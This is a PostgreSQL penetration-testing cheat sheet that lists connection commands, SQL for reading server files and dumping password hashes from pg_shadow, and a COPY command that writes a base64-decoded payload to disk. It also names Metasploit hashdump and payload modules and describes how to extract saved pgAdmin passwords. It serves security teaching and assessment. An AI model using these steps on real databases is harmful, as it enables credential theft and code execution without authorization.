 # 5432,5433 - Pentesting Postgresql

## **Basic Information**

**PostgreQSL** is an \_\*\*\_open source object-relational database system that uses and extends the SQL language.

**Default port:** 5432, and if this port is already in use it seems that postgresql will use the next port \(5433 probably\) which is not in use.

```text
PORT     STATE SERVICE
5432/tcp open  pgsql
```

## Connect

```bash
psql -U <myuser> # Open psql console with user
psql -h <host< -U <username> -d <database> # Remote connection
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection
```

```sql
psql -h localhost -d <database_name> -U <User> #Password will be prompted
\list # List databases
\c <database> # use the database
\d # List tables
\du+ # Get users roles

#Read a file
CREATE TABLE demo(t text);
COPY demo from '[FILENAME]';
SELECT * FROM demo;

#Write ascii to a file (copy to cannot copy binary data)
COPY (select convert_from(decode('<B64 payload>','base64'),'utf-8')) to 'C:\\some\\interesting\path.cmd'; 

#List databases
SELECT datname FROM pg_database;

#Read credentials (usernames + pwd hash)
SELECT usename, passwd from pg_shadow;

#Check if current user is superiser
SELECT current_setting('is_superuser'); #If response is "on" then true, if "off" then false

#Check if plpgsql is enabled
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql'

#Change password
ALTER USER user_name WITH PASSWORD 'new_password';

#Check users privileges over a table (pg_shadow on this example)
SELECT grantee, privilege_type 
FROM information_schema.role_table_grants 
WHERE table_name='pg_shadow'

#Get users roles
SELECT 
      r.rolname, 
      r.rolsuper, 
      r.rolinherit,
      r.rolcreaterole,
      r.rolcreatedb,
      r.rolcanlogin,
      r.rolconnlimit, r.rolvaliduntil,
  ARRAY(SELECT b.rolname
        FROM pg_catalog.pg_auth_members m
        JOIN pg_catalog.pg_roles b ON (m.roleid = b.oid)
        WHERE m.member = r.oid) as memberof
, r.rolreplication
FROM pg_catalog.pg_roles r
ORDER BY 1;
```

## Enumeration

```text
msf> use auxiliary/scanner/postgres/postgres_version
msf> use auxiliary/scanner/postgres/postgres_dbname_flag_injection
```

### \*\*\*\*[**Brute force**](../brute-force.md#postgresql)

Client authentication is controlled by a config file frequently named _**pg\_hba.conf**_. This file has a set of records. A record may have one of the following seven formats:

![](https://lh4.googleusercontent.com/Ff8YbD3ppYmN2Omp-4M-0AAVhLsr4c2i7d7HUjgkE-O6NZ5zbaST1hdMPrp1AL_xTXJalYe0HYxUk76vWJUfHZ5GuCDvIL1A-sMV44Z0CYSVgLM9ttFTDu-BhzewBGc7FeMarTLqsu_N1ztXJg)

**Each** record **specifies** a **connection type**, a **client IP address range** \(if relevant for the connection type\), a **database name**, a **user name**, and the **authentication method** to be used for connections matching these parameters. The **first record with a match**ing connection type, client address, requested database, and user name **is used** to perform authentication. There is no "fall-through" or "backup": **if one record is chosen and the authentication fails, subsequent records are not considered**. If no record matches, access is denied.  
The **password-based** authentication methods are **md5**, **crypt**, and **password**. These methods operate similarly except for the way that the password is sent across the connection: respectively, MD5-hashed, crypt-encrypted, and clear-text. A limitation is that the crypt method does not work with passwords that have been encrypted in pg\_authid.

## **POST**

```text
msf> use auxiliary/scanner/postgres/postgres_hashdump
msf> use auxiliary/scanner/postgres/postgres_schemadump
msf> use auxiliary/admin/postgres/postgres_readfile
msf> use exploit/linux/postgres/postgres_payload
msf> use exploit/windows/postgres/postgres_payload
```

### logging

Inside the _**postgresql.conf**_ file you can enable postgresql logs changing:

```bash
log_statement = 'all'
log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'
logging_collector = on
sudo service postgresql restart
#Find the logs in /var/lib/postgresql/<PG_Version>/main/log/
#or in /var/lib/postgresql/<PG_Version>/main/pg_log/
```

Then, **restart the service**.

### pgadmin

[pgadmin](https://www.pgadmin.org/) is an administration and development platform for PostgreSQL.  
You can find **passwords** inside the _**pgadmin4.db**_ file  
You can decrypt them using the _**decrypt**_ function inside the script: [https://github.com/postgres/pgadmin4/blob/master/web/pgadmin/utils/crypto.py](https://github.com/postgres/pgadmin4/blob/master/web/pgadmin/utils/crypto.py)

```bash
sqlite3 pgadmin4.db ".schema"
sqlite3 pgadmin4.db "select * from user;"
sqlite3 pgadmin4.db "select * from server;"
string pgadmin4.db
```

